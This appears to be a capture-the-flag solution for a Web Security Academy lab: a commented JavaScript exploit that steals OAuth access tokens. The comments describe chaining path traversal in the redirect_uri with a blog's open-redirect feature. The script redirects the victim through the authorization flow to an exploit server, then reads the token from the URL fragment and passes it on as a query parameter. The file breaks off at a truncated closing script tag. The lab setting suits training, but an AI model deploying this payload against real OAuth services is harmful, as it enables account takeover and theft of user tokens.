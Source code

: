 */ three links in the script are:
1st - authentication initialization
2nd - redirecting using blog's next path feature + path traversl
3rd - link to the exploit location

this leaks the token via fragment in the URI
when victims returns back to the malicious link (window.location.hash = True)
the script extracts the hash from the URI and sends it as a GET parameter to finalize the leak
/*

<script>
if (!document.location.hash) {
window.location = 'https://oauth-ac091f821fd0471ac088e8a2022f0013.web-security-academy.net/auth?client_id=a388sx5v6gxa1pdywvj38&redirect_uri=https://acdd1f361f3c4746c0d4e8ba002d00b2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac991fef1f8f4782c0c3e884011800de.web-security-academy.net/exploit&response_type=token&nonce=373179658&scope=openid%20profile%20email'
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</scr